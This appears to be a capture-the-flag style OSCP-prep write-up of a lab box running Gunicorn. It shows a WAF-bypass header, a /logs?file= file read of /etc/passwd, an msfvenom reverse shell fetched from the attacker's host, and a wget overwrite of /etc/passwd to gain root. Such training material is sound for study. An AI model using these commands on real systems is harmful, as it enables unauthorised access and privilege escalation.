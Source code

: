 **Start 11:50 08-01-2025**

---
```
Scope:
192.168.247.134
```
# Recon

## Nmap

```bash
sudo nmap -sC -sT -sV -oN nmap 192.168.247.134 -p- -T5 -vvvv --min-rate=5000

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
13337/tcp open  http    syn-ack Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and a HTTP port on `13337`.

HTTP port running **Gunicorn 20.0.4**.

I found the [following blog post](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/) on a vulnerability matching this version:

![](../../../assets/eb617303b99b98c8e5b0caba3bfebae9.png)

Let's check the website for now.

![](../../../assets/fc3527c5e80d924166e36cbaf44c5144.png)

![](../../../assets/7eef5b5cf1c4b8829d1d4da1af29e7a5.png)

It gives us some endpoints with the intended usage.

Let's enumerate further and check for hidden directories.


## Feroxbuster

```bash
feroxbuster --url http://192.168.247.134:13337 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![](../../../assets/66081e2318c7b8c7e6cba4edf94d826d.png)

We don't see any hidden directories that differ from the ones on the website.


# Initial Foothold

## 13337/TCP - HTTP

We start testing the endpoints one by one and find out by checking the `/logs` endpoint that the **WAF** (web app firewall) is activated:

![](../../../assets/d5bd5cf5aea7e897c9742591679dad20.png)

From the previously found blog we find the following:

![](../../../assets/701faa46f3ed6feb72cf6d712b4c5187.png)

We need to specify the following header in order to smuggle the request:

```bash
X-Forwarded-For: localhost
```

Now when we initiate our request through repeater we see the following response:

![](../../../assets/46b49fc59102b0d9f1564868e412a0f6.png)

>[!note]
>Remember, *Error* = good!

We get a 404 error but the text specifies that *no file has been specified*.

This means we just need to issue the file path to get access, let's try it out using `/etc/passwd`.

```bash
GET /logs?file=/etc/passwd HTTP/1.1
```

![](../../../assets/7fdc6afc350738f8fcef8ccb98026f1b.png)

Awesome, it worked! 

We notice the *clumsyadmin* user and their `/home` directory.


### local.txt

Using this technique we can get `local.txt` right away.

```bash
GET /logs?file=/home/clumsyadmin/local.txt HTTP/1.1
```

![](../../../assets/56163778fcc100b3513e2ec9c5b7b57d.png)


## Reverse Shell

![](../../../assets/eac71c2c0ba5ef88a2e7e406fffe83d7.png)

Via the `/update` endpoint we will upload a reverse shell payload created using `msfvenom`.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f elf -o shell
```

![](../../../assets/1d5298f33cdb0125d63267fc90d833fc.png)

We then add it to the request.

```bash
{
	"user":"clumsyadmin",
	"url":"http://192.168.45.236/shell"
}
```

![](../../../assets/a0013608afcb231321fc3180de0ff88c.png)

>[!caution]
>Remember to switch the Request mode to *POST*.

The response code is *200 - OK* which means the file has been succesfully uploaded, let's get our shell. For this we will go to the `/restart` endpoint and this should prompt the shell to work.

![](../../../assets/208c3690fd79e86a418e3f1d00771156.png)

Request via the endpoint wouldn't work, so I used Burp.

![](../../../assets/b4437e4523222f114803afda30b8de49.png)

![](../../../assets/2373c8049300fe59b5f7c6c773763093.png)

Then after upgrading our shell we can get to work on escalating privileges.


# Privilege Escalation

>[!note]
>I uploaded my `id_rsa.pub` key as `authorized_keys` to the newly created `.ssh` folder on the target so I could get an SSH shell.

![](../../../assets/7422dfccab35e6e070a11ed133fe9048.png)

We were not allowed to run `sudo -l`. 

![](../../../assets/ac646e55573a2eb56dfb1cf1236d8c56.png)

And we couldn't run `linpeas`.

I then enumerated the system some more:

![](../../../assets/b5a8b30b87e56e894a2faf7f4d883b0b.png)

![](../../../assets/0badad6fd904e80a101fdd5d739c616a.png)

![](../../../assets/267a0cc2f9476a0ed9d085f916f935a8.png)

After doing some searching I found this:

![](../../../assets/51904af152073b4241ae40d8cf0b26fb.png)

But the problem still existed of us not being able to `chmod` the script into an executable, thus rendering it useless.

![](../../../assets/d74f379a27688934aece0b73ec1b1519.png)

There was another PoC but this was yet again another script.

Let's check whether we can use any of the binaries.

>[!info]
>We find the `/wget` binary to be particularly useful.

![](../../../assets/e5e889f1b44897285c89af484b435f9d.png)

We can use the binary to overwrite the `/etc/passwd` file to upload our own `/etc/passwd` which allows us to `su` to `kali`.

```bash
/usr/bin/wget http://192.168.45.236/passwd -O /etc/passwd
```

We must now generate a new user and a new `passwd` file which we will upload:

```bash
# Generate new user
openssl passwd -1 -salt user3 pass123

# Create new passwd file
cat > passwd                         
user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash

# Overwrite existing /etc/passwd file
wget http://192.168.45.236/passwd -O /etc/passwd
```

![](../../../assets/a3265e054a516c36b69c6b2b5742b913.png)

And we have `root` privileges.


### proof.txt

![](../../../assets/b5af514643700ab38876d5f4ddef99c6.png)

---

**Finished 14:23 08-01-2025**

[^Links]: [[OSCP Prep]]

#priv-esc #feroxbuster #Gunicorn #web-attack #request-smuggling 